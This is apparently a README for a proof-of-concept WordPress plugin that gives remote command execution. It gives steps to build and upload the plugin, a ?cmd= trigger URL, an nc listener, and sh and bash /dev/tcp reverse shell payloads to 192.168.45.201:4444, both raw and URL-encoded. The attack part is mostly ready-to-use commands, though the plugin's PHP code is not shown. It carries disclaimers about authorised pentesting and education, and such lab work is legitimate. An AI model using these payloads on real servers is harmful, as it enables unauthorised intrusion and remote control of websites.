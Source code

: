 # 🐚 Shell Plugin PoC — Remote Command Execution via WordPress Plugin

> **⚠️ DISCLAIMER:**  
> This project is for educational and authorized penetration testing purposes **only**. Do not deploy or use without proper consent. Unauthorized use may violate laws and terms of service.

* * *

## 📁 Plugin Creation Steps

```bash
# Create plugin directory
mkdir malicious_shell_plugin/
cd malicious_shell_plugin/

# Create the plugin file
sudo nano malicious-plugin.php
```

**Insert your plugin payload into `malicious-plugin.php`.**

Then:

```bash
# Make the plugin executable (optional for PoC)
cd ..
sudo chmod +x malicious-plugin.php

# Zip the plugin for upload or transfer
zip -r shell_plugin.zip malicious_shell_plugin/
```

* * *

## 📂 Plugin Deployment

Once the plugin is uploaded and activated via the WordPress admin panel (or directly dropped into the `/wp-content/plugins/` directory), verify its presence:

```
http://1337.codes/wp-content/plugins/malicious_shell_plugin/
```

* * *

## 🧪 Proof of Concept (Command Execution)

Execute a test command to verify RCE:

```
http://1337.codes/wp-content/plugins/malicious_shell_plugin/malicious-plugin.php?cmd=id
```

* * *

## 📡 Setting Up a Listener

On your **attacking machine**, set up a listener:

```bash
nc -lvnp 4444
```

* * *

## 🌀 Reverse Shell Payloads

Pick your desired shell from [RevShells](https://www.revshells.com/). Example (encoded for URL use):

### 🐚 `sh` Reverse Shell

```text
sh -i >& /dev/tcp/192.168.45.201/4444 0>&1
```

URL-encoded:

```
sh%20-i%20%3E%26%20/dev/tcp/192.168.45.201/4444%200%3E%261
```

### 💥 `bash` Reverse Shell

```text
bash -c "sh -i >& /dev/tcp/192.168.45.201/4444 0>&1"
```

URL-encoded:

```
bash%20-c%20"sh%20-i%20%3E%26%20/dev/tcp/192.168.45.201/4444%200%3E%261"
```

Trigger it via browser:

```
http://1337.codes/wp-content/plugins/malicious_shell_plugin/malicious-plugin.php?cmd=bash%20-c%20"sh%20-i%20%3E%26%20/dev/tcp/192.168.45.201/4444%200%3E%261"
```

* * *

## 🔒 Ethical Usage Reminder

This PoC is built for **red teaming, pentesting labs, and cybersecurity education**. Use responsibly and within authorized environments only.

* * *

## 🛠 Tools Used

- Netcat (`nc`)
- Custom WordPress plugin
- RevShells.com
- Linux CLI

* * *

## 🧠 About

This plugin demonstrates how weak input validation in custom plugins can lead to **Remote Code Execution (RCE)** on WordPress installations. Always validate inputs, sanitize user input, and follow least privilege principles.
